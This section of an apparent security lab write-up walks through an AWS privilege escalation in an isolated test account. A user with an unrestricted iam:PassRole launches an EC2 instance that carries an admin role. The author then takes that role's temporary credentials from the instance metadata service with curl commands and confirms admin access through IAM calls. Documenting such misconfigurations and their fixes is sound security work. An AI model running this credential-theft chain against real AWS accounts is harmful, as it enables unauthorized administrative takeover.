# Exploitation Steps

All commands were run from a Windows PowerShell terminal using AWS CLI v2. Account IDs, access keys, secret keys, and session tokens are redacted as `<REDACTED>` or `<ACCOUNT_ID>`.

For the full, unformatted terminal output behind this section, see [`05-setup-cli-logs.md`](05-setup-cli-logs.md) and [`06-exploitation-cli-logs.md`](06-exploitation-cli-logs.md), or the raw originals in [`../cli-logs/setup-commands.log`](../cli-logs/setup-commands.log) and [`../cli-logs/privesc-commands.log`](../cli-logs/privesc-commands.log).

## 1. Environment setup

### 1.1 Network

An isolated VPC (`bincom-privesc-vpc`, `10.0.0.0/16`) was created with a public subnet, an Internet Gateway, a route table, and a security group permitting inbound SSH (port 22) from a single IP address only.


*VPC console: bincom-privesc-vpc*


*Subnet console: bincom-privesc-subnet*


*Route table console*


*Security group console: bincom-privesc-sg, inbound rules*

### 1.2 High privilege role (the escalation target)

`EC2-Admin-Role` (trusted by `ec2.amazonaws.com`, attached to `AdministratorAccess`) and its matching instance profile, `EC2-Admin-Instance-Profile`, were created as the escalation target. See [`01-vulnerability-design.md`](01-vulnerability-design.md) for why this role represents a realistic, over privileged application role.


*EC2-Admin-Role: trust relationship*


*EC2-Admin-Role: permissions*

### 1.3 The vulnerable user

The vulnerable user, `bincom-dev-user`, was created and the policy from [`01-vulnerability-design.md`](01-vulnerability-design.md) was attached, then an access key was generated and configured as a second CLI profile.


*bincom-dev-user: summary*


*bincom-dev-user: attached policy, BincomDevUserPolicy v1*


*bincom-dev-user: access key created*

## 2. Launching the instance as the attacker

Acting as `bincom-dev-user`, an EC2 instance was launched with `EC2-Admin-Role` attached as its instance profile:

```powershell
aws ec2 run-instances --image-id ami-0bdbbea3e76315b75 --instance-type t3.small `
  --key-name bincom-privesc-key --security-group-ids sg-07dd6d0efee71dcaf `
  --subnet-id subnet-014b46080b850a527 `
  --iam-instance-profile Name=EC2-Admin-Instance-Profile `
  --tag-specifications "ResourceType=instance,Tags=[{Key=Name,Value=privesc-exploit-instance}]" `
  --profile bincom-dev-user
```

Result: `InstanceId = i-04450e4e36f6480bd`, launched successfully, with `IamInstanceProfile.Arn` pointing at `EC2-Admin-Instance-Profile`. This step succeeds because `bincom-dev-user`'s policy permits `ec2:RunInstances` and places no restriction on which role can be passed via `iam:PassRole`.

Note: the instance enforced IMDSv2 (`HttpTokens: required`), the current AWS default. IMDSv2 mitigates remote, SSRF style theft of metadata credentials, but does not prevent this attack, since the attacker has direct SSH access to the instance and can request a session token itself.


*privesc-exploit-instance, running with EC2-Admin-Role attached*

## 3. Credential theft via instance metadata

With the instance running, an SSH session was opened and the metadata service was queried from inside the box:

```bash
ssh -i bincom-privesc-key.pem ec2-user@<INSTANCE_PUBLIC_IP>

# Request an IMDSv2 session token
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`

# Confirm the attached role's name
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Returns: EC2-Admin-Role

# Retrieve temporary credentials for that role
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-Admin-Role
```

The final call returns a JSON object containing `AccessKeyId`, `SecretAccessKey`, `Token`, and an `Expiration` timestamp: full, temporary administrator credentials, retrieved using nothing more than SSH access and the permissions `bincom-dev-user`'s own EC2 launch already granted it.


*SSH session into the exploit instance*


*IMDSv2 token request and stolen temporary credentials*

## 4. Proof of escalation

The stolen credentials were configured as a third CLI profile locally:

```powershell
aws configure set aws_access_key_id <REDACTED> --profile stolen-admin-creds
aws configure set aws_secret_access_key <REDACTED> --profile stolen-admin-creds
aws configure set aws_session_token <REDACTED> --profile stolen-admin-creds
aws configure set region us-east-1 --profile stolen-admin-creds
```

Identity confirmation:

```powershell
aws sts get-caller-identity --profile stolen-admin-creds
```

```json
{
  "UserId": "AROA36RW26SYCHM6PPL4J:i-04450e4e36f6480bd",
  "Account": "<ACCOUNT_ID>",
  "Arn": "arn:aws:sts::<ACCOUNT_ID>:assumed-role/EC2-Admin-Role/i-04450e4e36f6480bd"
}
```

Proof of impact, an action `bincom-dev-user`'s own policy never granted directly:

```powershell
aws iam list-users --profile stolen-admin-creds
aws iam list-attached-user-policies --user-name bincom-dev-user --profile stolen-admin-creds
```

Both calls succeeded, returning the full list of IAM users in the account and the policies attached to `bincom-dev-user`, using credentials obtained entirely through the exploit chain above.


*Proof of escalation: assumed role ARN and full IAM user listing*

## Result

An identity that started with only `ec2:RunInstances`, a handful of read only EC2 actions, and an unrestricted `iam:PassRole`, ended the exercise able to read IAM users and policies across the entire account, a direct path to full `AdministratorAccess`.

Continue to [`03-remediation.md`](03-remediation.md) for the fix and its verification.
